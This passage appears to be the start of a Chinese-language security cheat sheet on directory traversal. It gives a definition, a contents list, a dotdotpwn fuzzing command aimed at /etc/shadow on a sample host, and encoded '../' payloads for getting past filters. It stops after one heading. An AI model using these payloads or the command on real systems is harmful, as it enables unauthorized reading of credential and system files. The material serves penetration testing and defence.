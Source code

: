 # 目录遍历 (Directory Traversal)

> 目录遍历（也称为路径遍历）是一种安全漏洞，当攻击者能够操纵包含"点点斜杠(../)"或类似结构的文件引用变量时发生。这可能使攻击者能够访问文件系统上存储的任意文件和目录。

## 目录

* [工具](#工具)
* [方法学](#方法学)
    * [URL编码](#url编码)
    * [双重URL编码](#双重url编码)
    * [Unicode编码](#unicode编码)
    * [过长的UTF-8 Unicode编码](#过长的utf-8-unicode编码)
    * [混淆路径](#混淆路径)
    * [空字节](#空字节)
    * [反向代理URL实现](#反向代理url实现)
* [利用](#利用)
    * [UNC共享](#unc共享)
    * [ASP.NET无Cookie会话](#aspnet-无cookie会话)
    * [IIS短名称](#iis-短名称)
    * [Java URL协议](#java-url协议)
* [路径遍历](#路径遍历)
    * [Linux文件](#linux文件)
    * [Windows文件](#windows文件)
* [实验环境](#实验环境)
* [参考资料](#参考资料)

## 工具

* [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - 目录遍历模糊测试工具

    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## 方法学

我们可以使用 `..` 字符来访问父目录，以下是几种编码方式，可以帮助您绕过简单的过滤器。

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### URL编码
